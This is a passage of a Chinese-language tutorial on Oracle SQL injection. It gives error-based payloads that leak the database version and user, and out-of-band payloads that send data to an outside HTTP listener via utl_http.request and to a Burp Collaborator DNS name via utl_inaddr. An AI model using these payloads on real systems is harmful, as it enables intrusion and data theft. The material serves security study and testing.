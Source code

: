 ![image.png](./Oracle 注入基础.assets/2023_05_19_10_41_01_rf2GT0cZ.png)
```sql
-- payload
and (select dbms_xdb_version.uncheckout((select banner from sys.v_$version where rownum=1)) from dual) is not null
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_41_01_GSUbvwao.png)
### dbms_utility.sqlid_to_sqlhash()
```sql
SELECT dbms_utility.sqlid_to_sqlhash((select banner from sys.v_$version where rownum=1)) from dual
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_41_02_mt2ogFc8.png)
```sql
and (SELECT dbms_utility.sqlid_to_sqlhash((select banner from sys.v_$version where rownum=1)) from dual) is not null
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_41_02_j1cUNa7z.png)
### ordsys.ord_dicom.getmappingxpath()
```sql
select ordsys.ord_dicom.getmappingxpath((select banner from v$version where banner like 'Oracle%'),1,1) from dual
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_41_02_69erZhIk.png)

### utl_inaddr.*()
作用:用于取得局域网或Internet环境中的主机名和IP地址.
1、`utl_inaddr.get_host_address` 
如果查询失败，则提示系统错误
```sql
select utl_inaddr.get_host_address((select user from dual)) from dual
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_41_03_E3Bk2dpJ.png)
2、`UTL_INADDR.get_host_name`
如果查询失败，则提示系统错误
```sql
select utl_inaddr.get_host_name((select user from dual)) from dual
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_41_03_qWw4C2Xl.png)
## OOB 外带注入
**以下都需要用户可访问网络的权限**
### utl_http.request()
使用此方法，用户需要有utl_http访问网络的权限
然后使用`||`拼接字符外带出来，可以远程启动`HTTP`服务，或者nc远程监听某个端口
```sql
and utl_http.request('http://172.17.0.1:8888/'||(select banner from v$version where banner like 'Oracle%'))=1
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_41_04_oUIv60hw.png)
![image.png](./Oracle 注入基础.assets/2023_05_19_10_41_04_mJbelcUE.png)
### utl_inaddr.get_host_address()
使用dnslog外带数据
```sql
select utl_inaddr.get_host_address((select user from dual)||'.slhiqawh25q5ujl3kqdt0o48pzvqjf.burpcollaborator.net') from dual
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_41_05_PcBOKgxL.png)
```sql
```